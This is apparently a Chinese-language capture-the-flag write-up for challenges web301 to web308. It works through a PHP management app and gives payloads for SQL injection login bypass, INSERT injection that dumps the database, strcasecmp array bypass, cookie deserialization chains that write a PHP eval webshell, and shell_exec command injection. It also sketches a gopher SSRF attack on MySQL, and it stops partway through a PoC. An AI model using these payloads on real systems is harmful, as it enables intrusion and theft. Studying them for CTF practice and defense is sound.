# web301

## \# SQL注入+strcasecmp函数漏洞

大菜鸡几年前写的项目

先看index.php

```php
<?php
session_start();
require "conn.php";
if(!isset($_SESSION['login'])){
header("location:login.php");
}
?>
```

跳转登录页

```html
<?php
session_start();
?>
<!doctype html>
<html>

<head>
  <meta charset="utf-8">
  <meta http-equiv="X-UA-Compatible" content="IE=edge">
  <title>安防设备云管理系统</title>
  <meta name="description" content="安防设备云管理系统">
  <meta name="keywords" content="index">
  <meta name="viewport" content="width=device-width, initial-scale=1">
  <meta name="renderer" content="webkit">
  <meta http-equiv="Cache-Control" content="no-siteapp" />
  <link rel="icon" type="image/png" href="assets/i/favicon.png">
  <link rel="apple-touch-icon-precomposed" href="assets/i/app-icon72x72@2x.png">
  <meta name="apple-mobile-web-app-title" content="Amaze UI" />
  <link rel="stylesheet" href="assets/css/amazeui.min.css" />
  <link rel="stylesheet" href="assets/css/admin.css">
  <link rel="stylesheet" href="assets/css/app.css">
</head>

<body data-type="login">

  <div class="am-g myapp-login">
	<div class="myapp-login-logo-block  tpl-login-max">
		<div class="myapp-login-logo-text">
			<div class="myapp-login-logo-text">
				安防设备<span> 云管理系统</span> <i class="am-icon-skyatlas"></i>
				
			</div>
		</div>

		<div class="login-font">
			<i><?php echo isset($_SESSION['error']) &&( $_SESSION['error']=1)?"用户名密码错误":"";?> </i> 
		</div>
		<div class="am-u-sm-10 login-am-center">
			<form class="am-form" action="checklogin.php" method="post" >
				<fieldset>
					<div class="am-form-group">
						<input type="text" class="" name="userid" id="" placeholder="输入登陆名称">
					</div>
					<p>
					<div class="am-form-group">
						<input type="password" class="" name="userpwd" id="" placeholder="输入登陆密码">
					</div>
					<p><button type="submit" class="am-btn am-btn-default">登录</button></p>
				</fieldset>
			</form>
		</div>
	</div>
</div>

  <script src="assets/js/jquery.min.js"></script>
  <script src="assets/js/amazeui.min.js"></script>
  <script src="assets/js/app.js"></script>
</body>

</html>
```

主要关注这段代码



表单提交到 `checklogin.php` 处理登录逻辑，指定用 POST 方式传递数据

那我们跟进看一下

```php
<?php
error_reporting(0);
session_start();
require 'conn.php';
$_POST['userid']=!empty($_POST['userid'])?$_POST['userid']:"";
$_POST['userpwd']=!empty($_POST['userpwd'])?$_POST['userpwd']:"";
$username=$_POST['userid'];
$userpwd=$_POST['userpwd'];
$sql="select sds_password from sds_user where sds_username='".$username."' order by id limit 1;";
$result=$mysqli->query($sql);
$row=$result->fetch_array(MYSQLI_BOTH);
if($result->num_rows<1){
	$_SESSION['error']="1";
	header("location:login.php");
	return;
}
if(!strcasecmp($userpwd,$row['sds_password'])){
	$_SESSION['login']=1;
	$result->free();
	$mysqli->close();
	header("location:index.php");
	return;
}
$_SESSION['error']="1";
header("location:login.php");

?>
```

看到了吗？这里有两处漏洞点

一个很明显的sql注入漏洞

```php
$sql="select sds_password from sds_user where sds_username='".$username."' order by id limit 1;";
$result=$mysqli->query($sql);
$row=$result->fetch_array(MYSQLI_BOTH);
if($result->num_rows<1){
	$_SESSION['error']="1";
	header("location:login.php");
	return;
}
```

和strcasecmp函数的漏洞可以绕过登录逻辑

```php
if(!strcasecmp($userpwd,$row['sds_password'])){
	$_SESSION['login']=1;
	$result->free();
	$mysqli->close();
	header("location:index.php");
	return;
}
```

所以可以这样绕过

```php
userid=' union select 'pwn'#&userpwd=pwn
```

或者也可以用函数漏洞绕过

```php
userid=admin&userpwd[]=1
```



这样就拿到flag了

# web302

代码更改在这里

```php
if(!strcasecmp(sds_decode($userpwd),$row['sds_password'])){
```

多用了一个解码函数sds_decode

```php
<?php
function sds_decode($str){
	return md5(md5($str.md5(base64_encode("sds")))."sds");
}
?>
```

这里因为多了这些字符串拼接逻辑，当 $str 是数组时，会先在字符串拼接里被当成 "Array" 处理。所以数组绕过在这里就行不通了

其实编码函数也是一样的，那么就可以用联合查询虚拟表注入

```php
userid=' union select 'e240bf1e2d7cdcd2cf91ca6b969c5f37'#&userpwd=pwn
```

# web303

## #INSERT注入

跟着看看checklogin的逻辑

```php
<?php
error_reporting(0);
session_start();
require 'conn.php';
require 'fun.php';
$_POST['userid']=!empty($_POST['userid'])?$_POST['userid']:"";
$_POST['userpwd']=!empty($_POST['userpwd'])?$_POST['userpwd']:"";
$username=$_POST['userid'];
if(strlen($username)>6){
	die();
}
$userpwd=$_POST['userpwd'];
$sql="select sds_password from sds_user where sds_username='".$username."' order by id limit 1;";
$result=$mysqli->query($sql);
$row=$result->fetch_array(MYSQLI_BOTH);
if($result->num_rows<1){
	$_SESSION['error']="1";
	header("location:login.php");
	return;
}
if(!strcasecmp(sds_decode($userpwd),$row['sds_password'])){
	$_SESSION['login']=1;
	$result->free();
	$mysqli->close();
	header("location:index.php");
	return;
}
$_SESSION['error']="1";
header("location:login.php");

?>
```

对userid多了长度的限制，之前的方法没法打了

看到user.sql文件中

```sql
/*
Navicat MySQL Data Transfer

Source Server         : localhost_3306
Source Server Version : 50505
Source Host           : localhost:3306
Source Database       : sds

Target Server Type    : MYSQL
Target Server Version : 50505
File Encoding         : 65001

Date: 2020-12-17 12:41:10
*/

SET FOREIGN_KEY_CHECKS=0;

-- ----------------------------
-- Table structure for sds_user
-- ----------------------------
DROP TABLE IF EXISTS `sds_user`;
CREATE TABLE `sds_user` (
  `id` int(11) NOT NULL AUTO_INCREMENT,
  `sds_username` varchar(255) DEFAULT NULL,
  `sds_password` varchar(255) DEFAULT NULL,
  PRIMARY KEY (`id`)
) ENGINE=InnoDB AUTO_INCREMENT=2 DEFAULT CHARSET=utf8;

-- ----------------------------
-- Records of sds_user
-- ----------------------------
INSERT INTO `sds_user` VALUES ('1', 'admin', '27151b7b1ad51a38ea66b1529cde5ee4');

```

27151b7b1ad51a38ea66b1529cde5ee4其实就是admin，输出一下就知道了

那么我们就拿到了登录页面的账户密码admin/admin

同时多了一个dpt.php和dptadd.php，是Amaze UI中的表格管理

看到dptadd中

```php
<?php
session_start();
require 'conn.php';
if(!isset($_SESSION['login'])){
header("location:login.php");
return;
}else{
	//注入点
	$_POST['dpt_name']=!empty($_POST['dpt_name'])?$_POST['dpt_name']:NULL;
	$_POST['dpt_address']=!empty($_POST['dpt_address'])?$_POST['dpt_address']:NULL;
	$_POST['dpt_build_year']=!empty($_POST['dpt_build_year'])?$_POST['dpt_build_year']:NULL;
	$_POST['dpt_has_cert']=!empty($_POST['dpt_has_cert'])?$_POST['dpt_has_cert']:NULL;
	$_POST['dpt_cert_number']=!empty($_POST['dpt_cert_number'])?$_POST['dpt_cert_number']:NULL;
	$_POST['dpt_telephone_number']=!empty($_POST['dpt_telephone_number'])?$_POST['dpt_telephone_number']:NULL;
	
	$dpt_name=$_POST['dpt_name'];
	$dpt_address=$_POST['dpt_address'];
	$dpt_build_year=$_POST['dpt_build_year'];
	$dpt_has_cert=$_POST['dpt_has_cert']=="on"?"1":"0";
	$dpt_cert_number=$_POST['dpt_cert_number'];
	$dpt_telephone_number=$_POST['dpt_telephone_number'];
	$mysqli->query("set names utf-8");
	$sql="insert into sds_dpt set sds_name='".$dpt_name."',sds_address ='".$dpt_address."',sds_build_date='".$dpt_build_year."',sds_have_safe_card='".$dpt_has_cert."',sds_safe_card_num='".$dpt_cert_number."',sds_telephone='".$dpt_telephone_number."';";
	$result=$mysqli->query($sql);
	echo $sql;
	if($result===true){
		$mysqli->close();
		header("location:dpt.php");
	}else{
		die(mysqli_error($mysqli));
	}
	
	 }


?>
```

insert注入，但是该怎么注入以及在哪注入呢？看看sql配置语句sds_dpt.sql

```sql
/*
Navicat MySQL Data Transfer

Source Server         : localhost_3306
Source Server Version : 50505
Source Host           : localhost:3306
Source Database       : sds

Target Server Type    : MYSQL
Target Server Version : 50505
File Encoding         : 65001

Date: 2020-12-17 12:40:53
*/

SET FOREIGN_KEY_CHECKS=0;

-- ----------------------------
-- Table structure for sds_dpt
-- ----------------------------
DROP TABLE IF EXISTS `sds_dpt`;
CREATE TABLE `sds_dpt` (
  `id` int(11) NOT NULL AUTO_INCREMENT,
  `sds_name` varchar(255) DEFAULT NULL,
  `sds_address` varchar(255) DEFAULT NULL,
  `sds_build_date` datetime DEFAULT NULL,
  `sds_have_safe_card` int(1) DEFAULT NULL,
  `sds_safe_card_num` varchar(255) DEFAULT NULL,
  `sds_telephone` varchar(255) DEFAULT NULL,
  PRIMARY KEY (`id`)
) ENGINE=InnoDB AUTO_INCREMENT=47 DEFAULT CHARSET=utf8;

-- ----------------------------
-- Records of sds_dpt
-- ----------------------------
INSERT INTO `sds_dpt` VALUES ('1', '解放路支行', '解放路1号', '2020-12-17 11:47:52', '1', '1056901', '88678876');
INSERT INTO `sds_dpt` VALUES ('37', '人民路支行', '人民路2号', '2020-12-01 00:00:00', '0', '38910231', '38910231');
INSERT INTO `sds_dpt` VALUES ('39', '人民路支行', '人民路2号', '2020-12-01 00:00:00', '1', '38910231', '38910231');

```

其中`sds_name`，`sds_address`，`sds_safe_card_num`，`sds_telephone`都是char

然后在dpt.php中发现



会输出回显

所以我们可以尝试对char类型的数据进行注入

```php
dpt_name=1
dpt_address=1',sds_build_date=now(),sds_have_safe_card='1',sds_safe_card_num='1',sds_telephone=(select group_concat(schema_name) from information_schema.schemata)#
```

后面正常打注入就行了

```http
dpt_name=1
dpt_address=1',sds_build_date=now(),sds_have_safe_card='1',sds_safe_card_num='1',sds_telephone=(select group_concat(table_name) from information_schema.tables where table_schema='sds')#

dpt_name=2
dpt_address=1',sds_build_date=now(),sds_have_safe_card='1',sds_safe_card_num='1',sds_telephone=(select group_concat(column_name) from information_schema.columns where table_name='sds_flaag')#

dpt_name=3
dpt_address=1',sds_build_date=now(),sds_have_safe_card='1',sds_safe_card_num='1',sds_telephone=(select flag from sds.sds_flaag)#
```

# web304

添加了全局waf

```php
function sds_waf($str){
	return preg_match('/[0-9]|[a-z]|-/i', $str);
}
```

不过对303的手法没啥影响，没明白这个waf加在哪了

# web305

## #php反序列化

在checklogin.php中多了一段这个

```php
require 'class.php';
$user_cookie = $_COOKIE['user'];
if(isset($user_cookie)){
	$user = unserialize($user_cookie);
}
```

无过滤的反序列化

然后多了一个class.php

```php
<?php

class user{
	public $username;
	public $password;
	public function __construct($u,$p){
		$this->username=$u;
		$this->password=$p;
	}
	public function __destruct(){
		file_put_contents($this->username, $this->password);
	}
}
```

直接打cookie反序列化就好

```php
Cookie:...;user=O%3A4%3A%22user%22%3A2%3A%7Bs%3A8%3A%22username%22%3Bs%3A5%3A%221.php%22%3Bs%3A8%3A%22password%22%3Bs%3A18%3A%22%3C%3Fphp%20phpinfo()%3B%3F%3E%22%3B%7D
```

访问1.php成功写入文件



后面直接写入一句话木马就行了

```php
O%3A4%3A%22user%22%3A2%3A%7Bs%3A8%3A%22username%22%3Bs%3A9%3A%22shell.php%22%3Bs%3A8%3A%22password%22%3Bs%3A29%3A%22%3C%3Fphp+eval($_POST['cmd']); ?>%22%3B%7D
```

但是flag在数据库中，需要连接添加一下数据库

一直连mysql没连上，后面发现是mysqli，而且密码也不是conn.php中的phpcj而是root，纯纯诈骗！



最终在数据库中拿到flag



# web306

## #php反序列化

整套源码变成了MVC架构的项目

控制器的代码的话其实还是之前看的那些login.php、checklogin.php、index.php、dpt.php、dptadd.php、logout.php 等，只不过把一些业务逻辑代码且分开了

顺着login.php来看checklogin.php

```php
<?php
#error_reporting(0);
session_start();
require 'service.php';

$username=$_POST['userid'];
$userpwd=$_POST['userpwd'];
$service=new service();

$user=$service->login($username,$userpwd);
if($user){
	setcookie('user',base64_encode(serialize($user)),time()+60);
	header("location:index.php");
}else{
	header("location:login.php");
}

?>
```

跟进service类

```php
<?php

require 'dao.php';
require 'fun.php';
define("__USERNAME_MAX_LENGTH", 6);

class service{
	private $dao;
	public function __construct(){
		$this->dao=new dao();
	}
	public function login($u,$p){
		if(isset($u) && isset($p) && strlen($u)<__USERNAME_MAX_LENGTH){
			$password = $this->dao->get_user_password_by_username($u);
			if($password===sds_decode($p)){
				return new user($u,$p);
			}
		}
		return false;
	}
}
```

password的处理需要调用到dao类的方法

```php
<?php

require 'config.php';
require 'class.php';


class dao{
	private $config;
	private $conn;

	public function __construct(){
		$this->config=new config();
		$this->init();
	}
	private function init(){
		$this->conn=new mysqli($this->config->get_mysql_host(),$this->config->get_mysql_username(),$this->config->get_mysql_password(),$this->config->get_mysql_db());
	}
	public function __destruct(){
		$this->conn->close();
	}

	public function get_user_password_by_username($u){
		$sql="select sds_password from sds_user where sds_username='".$u."' order by id limit 1;";
		$result=$this->conn->query($sql);
		$row=$result->fetch_array(MYSQLI_BOTH);
		if($result->num_rows>0){
			return $row['sds_password'];
		}else{
			return '';
		}
	}

}
```

如果相等就会返回一个user实例，随后会这个实例对象序列化存入到cookie中，并跳转到index.php

```php
<?php
session_start();
require "conn.php";
require "dao.php";
$user = unserialize(base64_decode($_COOKIE['user']));
if(!$user){
    header("location:login.php");
}
?>
```

有一个没过滤的反序列化操作，并且只要反序列化成功了就算成功登录了。但是该咋打反序列化呢？

看到class.php中有一个log类存在file_put_contents方法可以打任意文件写入

```php
<?php

class log{
	public $title='log.txt';
	public $info='';
	public function loginfo($info){
		$this->info=$this->info.$info;
	}
	public function close(){
		file_put_contents($this->title, $this->info);
	}

}
```

看看哪里调用了close方法



所以我们写个poc

```php
<?php 
class log{
	public $title='3.php';
	public $info='<?php phpinfo();?>';

}
class dao{
    private $config;
    private $conn;

    public function __construct(){
        $this->conn = new log();
    }
}


$a = new dao();
echo base64_encode(serialize($a));
```

在index.php页面传入cookie后访问就出来了

后面写入马子后flag就在当前目录下

# web307

## #php反序列化

login.php下关键代码

```php
<?php
session_start();
error_reporting(0);
require 'controller/service/service.php';
$user = unserialize(base64_decode($_COOKIE['user']));
if($user){
	header("location:index.php");
}
?>
```

跟上一题index.php一样的逻辑

然后就是找链子了

之前写文件的log类中closelog方法是没有调用点的，不过发现有一个可以RCE的方法

```php
dao类中的clearCache方法
public function  clearCache(){
    shell_exec('rm -rf ./'.$this->config->cache_dir.'/*');
}
```

命令是拼接的，那就可以打RCE

找找哪里调用了clearCache

在service类中

```php
	public function clearCache(){
		$this->dao->clearCache();
	}
```

继续回溯，发现在logout.php中有相关调用

```php
<?php
session_start();
error_reporting(0);
require 'service/service.php';
unset($_SESSION['login']);
unset($_SESSION['error']);
setcookie('user','',0,'/');
$service = unserialize(base64_decode($_COOKIE['service']));
if($service){
	$service->clearCache();
}
setcookie('PHPSESSID','',0,'/');
setcookie('service','',0,'/');
header("location:../login.php");
?>
```

这里可以看出有两条链子

给出poc

```php
<?php 
class config{
	public $cache_dir = ';echo "<?php phpinfo(); ?>" > /var/www/html/1.php;';
}

class dao {
    private $config;
    private $conn;

    public function __construct() {
        $this->config = new config();
    }
}

$a = new dao();
echo base64_encode(serialize($a));
```

在logout.php中传入cookie，正常打通后会重定向到login.php，访问1.php发现成功写入



# web308

## #php反序列化+SSRF打Mysql



跟进

有两处，一处是dao.php

```php
<?php

require 'config/config.php';
require 'class.php';


class dao{
	private $config;
	private $conn;
	public function __construct(){
		$this->config=new config();
		$this->init();
	}
	public function checkVersion(){
		return checkUpdate($this->config->update_url);
	}
}
```

另一处是service的嵌套调用

```php
<?php
    
define("ROOT",dirname(__FILE__));
require ROOT.'/dao/dao.php';
require ROOT.'/util/fun.php';
define("__USERNAME_MAX_LENGTH", 6);

class service{
	private $dao;
	public function __construct(){
		$this->config=new config();
		$this->dao=new dao();
	}
	public function __wakeup(){
		$this->config=new config();
		$this->dao=new dao();
	}
	public function checkVersion(){
		return $this->dao->checkVersion();
	}
}
```

看看checkUpdate函数是什么

```php
function checkUpdate($url){
		$ch=curl_init();
		curl_setopt($ch, CURLOPT_URL, $url);
		curl_setopt($ch, CURLOPT_HEADER, false);
		curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
		curl_setopt($ch, CURLOPT_FOLLOWLOCATION, true);
		curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false); 
        curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, false);
		$res = curl_exec($ch);
		curl_close($ch);
		return $res;
	}
```

很经典的SSRF漏洞函数，然后存在mysql，可以用ssrf的gopher协议打mysql

用gopherus工具生成payload https://github.com/tarunkant/Gopherus



写poc

```php
<?php
class config{
